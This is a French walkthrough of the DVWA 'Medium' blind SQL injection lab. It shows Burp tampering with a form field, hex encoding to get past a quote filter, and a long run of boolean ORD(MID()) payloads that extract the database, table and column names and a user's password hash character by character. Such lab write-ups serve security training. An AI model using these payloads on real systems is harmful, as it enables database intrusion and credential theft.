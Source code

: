 # Niveau "Medium"

Pour ce niveau "Medium", le champ de type `<input>` devient un champ `<select>` :

![](../../../../.gitbook/assets/505a07d309ed78b0ab3251c5d9ad6ff5.png)

De plus, la requête n'est plus de type **`GET`** mais de type **`POST`** :

![](../../../../.gitbook/assets/3891b089c6a39abd4bbb087fb2946b0e.png)

Pour se simplifier la vie, on transforme à la volée le champ `<select>` en champ `<inpu/>` \(via Burp ici\) :

![](../../../../.gitbook/assets/4d32088f3c989162713d34226c54cb3c.png)

On confirme ensuite l'injection ainsi que son type, numérique :

![](../../../../.gitbook/assets/1f4f6f48508dba119ff4d156490ef9fc.png)

On détermine également le nom de la base :

![](../../../../.gitbook/assets/25ec934adcc5a98cdc1379779ebfb3e6.png)

```sql
1 AND ORD(MID(DATABASE(),1,1)) = 100  // d
1 AND ORD(MID(DATABASE(),2,1)) = 118  // v
1 AND ORD(MID(DATABASE(),3,1)) = 119  // w
1 AND ORD(MID(DATABASE(),4,1)) = 97   // a
```

La prochaine action est de récupérer les noms des tables, mais il semble que le caractère `"'"` soit filtré :

![](../../../../.gitbook/assets/63fe1d5e7910343ba81b717d2ed40e92.png)

Il nous faut donc trouver un moyen de contourner cette limitation. Pour cela la chaîne de caractères sera écrite en notation hexadécimale \(`0x64767761` est équivalent à `dvwa`\) :

![](../../../../.gitbook/assets/264917ef13056bf1b12a8d8fa9f2613e.png)

Soit pour la table `guestbook` :

```sql
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),1,1)) = 103  // g 
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),2,1)) = 117  // u
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),3,1)) = 101  // e
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),4,1)) = 115  // s
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),5,1)) = 116  // t
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),6,1)) = 98   // b
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),7,1)) = 111  // o
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),8,1)) = 111  // o
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 0,1),9,1)) = 107  // k
```

Puis pour la table `users` :

```sql
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),1,1)) = 117 // u 
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),2,1)) = 115 // s
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),3,1)) = 101 // e
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),4,1)) = 114 // r
1 AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,1),5,1)) = 115 // s
```

Ensuite, on retrouve le nombre de colonnes de la table `users` \(`0x7573657273` pour `users`\) :

```sql
1 AND ORD(MID((SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761),1,1)) = 56  // 8 
```

Puis les noms des colonnes de cette table avec ici la colonne `user` :

```sql
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),1,1)) = 117  // u 
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),2,1)) = 115  // s
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),3,1)) = 101  // e
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 3,1),4,1)) = 114  // r
```

Ainsi que la colonne `password` :

```sql
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),1,1)) = 112  // p 
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),2,1)) = 97   // a
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),3,1)) = 115  // s
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),4,1)) = 115  // s
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),5,1)) = 119  // w
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),6,1)) = 111  // o
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),7,1)) = 114  // r
1 AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x64767761 LIMIT 4,1),8,1)) = 100  // d
```

Finalement, le mot de passe de l'utilisateur Pablo \(équivalent à `0x7061626C6F`\) :

```sql
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),1,1)) = 48    // 0 
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),2,1)) = 100   // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),3,1)) = 49    // 1
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),4,1)) = 48    // 0
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),5,1)) = 55    // 7
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),6,1)) = 100   // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),7,1)) = 48    // 0
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),8,1)) = 57    // 9
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),9,1)) = 102   // f
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),10,1)) = 53   // 5
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),11,1)) = 98   // b
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),12,1)) = 98   // b
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),13,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),14,1)) = 52   // 4
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),15,1)) = 48   // 0
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),16,1)) = 99   // c
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),17,1)) = 97   // a
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),18,1)) = 100  // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),19,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),20,1)) = 51   // 3
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),21,1)) = 100  // d
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),22,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),23,1)) = 53   // 5
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),24,1)) = 99   // c
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),25,1)) = 55   // 7
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),26,1)) = 49   // 1
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),27,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),28,1)) = 57   // 9
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),29,1)) = 101  // e
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),30,1)) = 57   // 9
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),31,1)) = 98   // b
1 AND ORD(MID((SELECT password FROM dvwa.users WHERE user=0x7061626C6F),32,1)) = 55   // 7
```

Soit :

![](../../../../.gitbook/assets/6d75b9397dbe0c57747a75e7b2a5485c.png)

